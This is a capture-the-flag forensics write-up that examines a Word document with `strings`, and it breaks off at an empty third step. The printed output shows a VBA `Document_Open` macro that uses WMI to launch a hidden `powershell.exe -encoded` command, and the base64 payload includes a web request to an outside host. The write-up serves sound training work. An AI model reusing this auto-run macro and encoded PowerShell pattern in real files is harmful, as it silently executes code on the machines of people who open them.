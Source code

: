 # Homework

**Challenge Type: Forensics**  


## Challenge

## Solution

1. Find the readable strings in the document

```bash
strings homework.doc
bjbj
Today
s homework
48 hours hackthebox practice
200 CTF challenges
gd>v
[Content_Types].xml
_rels/.rels
theme/theme/themeManager.xml
sQ}#
theme/theme/theme1.xml
"GJK
TcKBc
v[`E
'.Lq
yDQ"Q
Z6/H
ud9c
J{rJ
Q/B)L
lC=h
W!alf
AXl:X
PxzSq]y<u
n6      m
;B=s!
q5;3
BU`M
b!e9#i
`571
W       0xn?G
theme/theme/_rels/themeManager.xml.rels
6?$Q
K(M&$R(.1
[Content_Types].xmlPK
_rels/.relsPK
theme/theme/themeManager.xmlPK
theme/theme/theme1.xmlPK
theme/theme/_rels/themeManager.xml.relsPK
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<a:clrMap xmlns:a="http://schemas.openxmlformats.org/drawingml/2006/main" bg1="lt1" tx1="dk1" bg2="lt2" tx2="dk2" accent1="accent1" accent2="accent2" accent3="accent3" accent4="accent4" accent5="accent5" accent6="accent6" hlink="hlink" folHlink="folHlink"/>
Gabriel Seet
Normal.dotm
Gabriel Seet
Microsoft Office Word
Title
Project
rstd
ole>
\G{00020
430-
0046}#
2.0#0#C:
\Windows
\System3
e2.tlb
#OLE Aut
omation
ENormal
! Offic
!G{2DF8
D04C-5BF
A-101B-BHDE5
gram
 Files\C ommon
crosoft 
Shared\O
FFICE16\
MSO.DLL#
M 16.0 
 LibrXary
hisDocum@entG
u@Ie
*\CNormalrU
ThisDocument
Project
C:\Program Files\Common Files\Microsoft Shared\VBA\VBA7.1\VBE7.DLL
C:\Program Files\Microsoft Office\root\Office16\MSWORD.OLB
Word
C:\Windows\System32\stdole2.tlb
stdole
C:\Program Files\Common Files\Microsoft Shared\OFFICE16\MSO.DLL
Office
Document
Document_Open
Execute
VBE7.DLL
winmgmts:\\
\root\cimv2
Win32_ProcessStartup 
winmgmts:\\
\root\cimv2:Win32_Process
powershell.exe -encoded JABmAGwAYQBnACAAPQAgACIARgBMAEEARwB7AHcAMAByAGQAIgA7ACAAJAB3AHMAaABlAGwAbAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBDAG8AbQBPAGIAagBlAGMAdAAgAFcAcwBjAHIAaQBwAHQALgBTAGgAZQBsAGwAOwAgACQAdwBzAGgAZQBsAGwALgBQAG8AcAB1AHAAKAAiAEgAZQBsAGwAbwAgAFcAbwByAGwAZAAiACwAMAAsACIAOgBEACIALAAwAHgAMQApADsAIABpAHcAcgAgAGgAdAB0AHAAcwA6AC8ALwBuAHkAcABjAGcAYwBxAHUAYQBsAHMALgBjAG8AbQAvAF8AcAAwAHcAMwByADsAIAAkAHMAIAA9ACAAIgBzAGgAZQBsAGwAfQAiADsAIAAkAGEAIAA9ACAAJABzAC4AcgBlAHAAbABhAGMAZQAoACIAZQAiACwAIAAiADMAIgApAA==
Attribut
e VB_Nam
e = "Thi
sDocumen
1Normal
VGlobal!
Spac
Crea
tabl
Pre decla
BExp
Temp
lateDeri
$Custom,iz
_Open
        nd 
Publ
ic Funct
ion 
As Varia
Cons
t HIDDEN
_WINDOW
strCom
Set obj
WMIServi
GetObje
ct("winm
gmts:\\"
 & 
& "\
root\cimhv2"
@ O"
tartup
("Win3
2_Proces>sD
@Afi
@Gance_
.Show
1H^:
 "powers
hell.exe
 -encod
JABmAGwA
YQBnACAA
PQAgACIA
RgBMAEEA
RwB7AHcA
MAByAGQA0IgA7
HMAaABl
D0AIA
BOAGUAdw
AtAE8AYg
YwB0
LQBDAG8A
bQBPAGIADag
cAcwBjAH
QBwAHQA
LgBTAGgA
ZQBs
cAB1AHAA@KAAiAE
AsA!
OgBE
gAMQApPADsA
wA6AC8AL
wBuAHkA
 jAGcA
AvAF8
/zA0C4Ac
bA BhAGM
6pAA=="
, Null,AuA
X, int
DlVE
Word
Win16
Win32
Win64x
VBA6
VBA7
Project1
stdole
Project-
ThisDocument<
_Evaluate
Normal
Office
Documentj
Document_Open
ExecuteY
HIDDEN_WINDOW   n
strComputer
objWMIService
GetObjectz
objStartup
objConfigE
SpawnInstance_a
ShowWindowJk
objProcess
Create
intProcessIDH
_B_var_strComputerD
_B_var_objWMIService}G
_B_var_objStartup
_B_var_objConfig
_B_var_objProcess
_B_var_intProcessID
ID="{88B446DD-E87A-4F9B-8072-3006866CDD41}"
Document=ThisDocument/&H00000000
Name="Project"
HelpContextID="0"
VersionCompatible32="393222000"
CMG="5A58868C3A903A903A903A90"
DPB="1210CE548755875587"
GC="CAC8161CCF1DCF1D30"
[Host Extender Info]
&H00000001={3832D640-CF90-11CF-8E43-00A0C911005A};VBE;&H00000000
[Workspace]
ThisDocument=0, 0, 0, 0, C
ThisDocument
Microsoft Word 97-2003 Document
MSWordDoc
Word.Document.8

```
2. An interesting thing can be found in one of the lines
`powershell.exe -encoded JABmAGwAYQBnACAAPQAgACIARgBMAEEARwB7AHcAMAByAGQAIgA7ACAAJAB3AHMAaABlAGwAbAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBDAG8AbQBPAGIAagBlAGMAdAAgAFcAcwBjAHIAaQBwAHQALgBTAGgAZQBsAGwAOwAgACQAdwBzAGgAZQBsAGwALgBQAG8AcAB1AHAAKAAiAEgAZQBsAGwAbwAgAFcAbwByAGwAZAAiACwAMAAsACIAOgBEACIALAAwAHgAMQApADsAIABpAHcAcgAgAGgAdAB0AHAAcwA6AC8ALwBuAHkAcABjAGcAYwBxAHUAYQBsAHMALgBjAG8AbQAvAF8AcAAwAHcAMwByADsAIAAkAHMAIAA9ACAAIgBzAGgAZQBsAGwAfQAiADsAIAAkAGEAIAA9ACAAJABzAC4AcgBlAHAAbABhAGMAZQAoACIAZQAiACwAIAAiADMAIgApAA==
`This looks like powershell code encoded in base64

3. 
